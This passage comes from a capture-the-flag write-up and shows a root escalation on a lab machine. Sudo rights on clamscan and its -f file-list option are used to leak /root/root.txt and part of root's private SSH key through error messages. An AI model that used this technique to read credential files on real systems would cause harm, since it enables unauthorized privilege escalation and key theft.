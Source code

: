 ### sbrown –> root: –file-list / -f

Looking through the `-h` options for `clamscan`, `-f` jumps out as interesting.

```
sbrown@snoopy:~$ clamscan -h

                       Clam AntiVirus: Scanner 1.0.0
           By The ClamAV Team: https://www.clamav.net/about.html#credits
           (C) 2022 Cisco Systems, Inc.

    clamscan [options] [file/directory/-]
...[snip]...
    --file-list=FILE      -f FILE        Scan files from FILE
...[snip]...

```

With `--file-list` or `-f`, it will get a list of files to scan from a file. Whenever you have something that can read a filename from a file and interact with it, it’s worth trying it on `root.txt`.

```
sbrown@snoopy:~$ sudo clamscan -f /root/root.txt
LibClamAV Warning: **************************************************
LibClamAV Warning: ***  The virus database is older than 7 days!  ***
LibClamAV Warning: ***   Please update it as soon as possible.    ***
LibClamAV Warning: **************************************************
Loading:    25s, ETA:   0s [========================>]    8.66M/8.66M sigs
Compiling:   7s, ETA:   0s [========================>]       41/41 tasks

d78ba555860aee798a837bbfb58fc0cd: No such file or directory
WARNING: d78ba555860aee798a837bbfb58fc0cd: Can't access file

----------- SCAN SUMMARY -----------
Known viruses: 8659055
Engine version: 1.0.0
Scanned directories: 0
Scanned files: 0
Infected files: 0
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 33.961 sec (0 m 33 s)
Start Date: 2023:05:10 16:43:58
End Date:   2023:05:10 16:44:32

```

Here, it reads the hash out of `root.txt`, and then tried to read the file with named by that hash. But that hash isn’t a file, so it fails, and in the error message, prints the flag!

The same trick works to read `/root/.ssh/id_rsa`:

```
sbrown@snoopy:~$ sudo clamscan -f /root/.ssh/id_rsa
...[snip]...
-----BEGIN OPENSSH PRIVATE KEY-----: No such file or directory
WARNING: -----BEGIN OPENSSH PRIVATE KEY-----: Can't access file
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: No such file or directory
WARNING: b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn: Can't access file
NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: No such file or directory
WARNING: NhAAAAAwEAAQAAAYEA1560zU3j7mFQUs5XDGIarth/iMUF6W2ogsW0KPFN8MffExz2G9D/: Can't access file
...[snip]...

```
